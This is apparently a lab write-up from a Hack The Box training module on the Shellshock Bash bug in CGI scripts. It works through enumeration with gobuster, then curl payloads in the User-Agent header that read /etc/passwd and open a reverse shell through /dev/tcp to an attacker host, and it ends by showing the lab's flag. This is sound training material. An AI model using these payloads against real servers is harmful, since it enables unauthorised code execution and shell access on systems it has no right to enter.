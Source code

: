 # CGI - Shellshock

* CGI is middleware between web servers, external databases, and information sources.
* CGI scripts and programs are kept in the `/CGI-bin` directory
* often used for guest books, forms (email, feedback, registration), mailing lists, blogs, etc.
* can be written very simply to perform advanced tasks much easier than writing them using server-side programming languages.

CGI scripts/applications are typically used for a few reasons:

* If the webserver must dynamically interact with the user
* When a user submits data to the web server by filling out a form. The CGI application would process the data and return the result to the user via the webserver

![image](https://academy.hackthebox.com/storage/modules/113/cgi.gif)

### Shellshock via CGI

Shellshock vulnerability ([CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)) was discovered in 2014, is relatively simple to exploit, and can still be found in the wild

It is a security flaw in the Bash shell (GNU Bash up until version 4.3) that can be used to execute unintentional commands using environment variables.

Shellshock vulnerability allows an attacker to exploit old versions of Bash that save environment variables incorrectly.

Typically when saving a function as a variable, the shell function will **stop** where it is defined to end by the creator. Vulnerable versions of Bash will allow an attacker to execute operating system commands that are included after a function stored inside an environment variable.

```bash
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"bas
```

When the above variable is assign `y='() { :;};`  will be interpret as a function. when it is imported, it will execute the command `echo vulnerable-shellshock` if the version of Bash is vulnerable.

If the system is not vulnerable, only `"not vulnerable"` will be printed.

```bash
env y='() { :;}; echo vulnerable-shellshock' bash -c "echo not vulnerable"

not vulnerable
```

### Example

**Enumeration - Gobuster**

```shell-session
gobuster dir -u http://10.129.204.231/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi

/access.cgi           (Status: 200) [Size: 0]
```

cURL the script to see the output

```shell-session
curl -i http://10.129.204.231/cgi-bin/access.cgi

HTTP/1.1 200 OK
Date: Thu, 23 Mar 2023 13:28:55 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 0
Content-Type: text/html
```

> No output

**Confirming the Vulnerability**

```shell-session
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.204.231/cgi-bin/access.cgi
```

> if works the /etc/passwd will be printed

**Exploitation to Reverse Shell Access**

```shell-session
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.10.14.38/7777 0>&1' http://10.129.204.231/cgi-bin/access.cgi
```

```shell-session
sudo nc -lvnp 7777
```

## Assessment

**Enumerate the host, exploit the Shellshock vulnerability, and submit the contents of the flag.txt file located on the server.**

```
gobuster dir -u http://10.129.205.27/cgi-bin/ -w /usr/share/wordlists/dirb/small.txt -x cgi
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.205.27/cgi-bin/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              cgi
[+] Timeout:                 10s
===============================================================
2023/07/14 00:12:21 Starting gobuster in directory enumeration mode
===============================================================
/access.cgi           (Status: 200) [Size: 0]
```

```
curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://10.129.205.27/cgi-bin/access.cgi

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
<SNIP>
```

Is vulnerable to shell shock, then get a reverse shell.

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption><p>Sh3ll_Sh0cK_123</p></figcaption></figure>

